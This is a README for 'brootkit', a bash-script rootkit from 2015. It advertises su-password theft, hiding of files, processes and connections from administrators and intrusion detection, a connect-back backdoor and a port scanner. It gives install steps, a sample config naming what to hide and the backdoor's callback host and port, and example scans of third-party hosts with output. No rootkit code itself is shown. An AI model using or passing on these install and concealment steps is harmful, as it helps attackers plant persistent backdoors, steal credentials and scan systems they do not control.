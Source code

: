 Lightweight rootkit implemented by bash shell scripts v0.06

by wzt 2015   wzt.wzt@gmail.com http://www.cloud-sec.org

If bash shell scripts can be designed for security tools like chkrootkit 
or rkhunter, so it can be implemented for a rootkit.

features:

1. more hidable ability against admintrator or hids.
2. su passwd thief.
3. hide file and directorys.
4. hide process.
5. hide network connections.
6. connect backdoor.
7. muilt thread port scanner.

tudo:

1. sudo thief support.


INSTALL
=======

1. edit br.conf first

   #brootkit config file.
   #
   #the ports will be hide: port1,port2,...,portn.
   HIDE_PORT               8080,8899
   #the files will be hide: file1,file2,...,filen.
   HIDE_FILE               br.conf,bashbd.sh,brootkit,.bdrc,brdaemon
   #the process will be hide: process1,process2,...,processn.
   HIDE_PROC               bashbd,brootkit,pty.spawn,brdaemon
   # the connect back host domain name or ip address.
   REMOTE_HOST             localhost
   # the connect back host port.
   REMOTE_PORT             8080
   # the connect backdoor base sleep time.
   SLEEP_TIME              60

2. ./install.sh

3. muilt thread port scanner.

   [root@localhost brootkit]# ./brscan.sh
   ./brscan.sh <-p> [-n|-t|-o|-h] <remote_host>

   option:
   -p              ports, pattern: port1,port2,port3-port7,portn...
   -n              thread num, defalut is 10
   -t              timeout, default is 30s
   -o              results write into log file, default is brscan.log
   -h              help information.

   exp:
   ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 20 www.cloud-sec.org
   ./brscan.sh -p 1-65525 -n 200 -t 20 www.cloud-sec.org
   [root@localhost brootkit]# ./brscan.sh -p 21,22-80 -n 20 www.aliyun.com
   host: www.aliyun.com | total ports: 60 | thread num: 20 timeout: 30 | logfile: brscan.log

   connect to www.aliyun.com:80 ok.


SOURCE
======

   https://github.com/cloudsec/brootkit

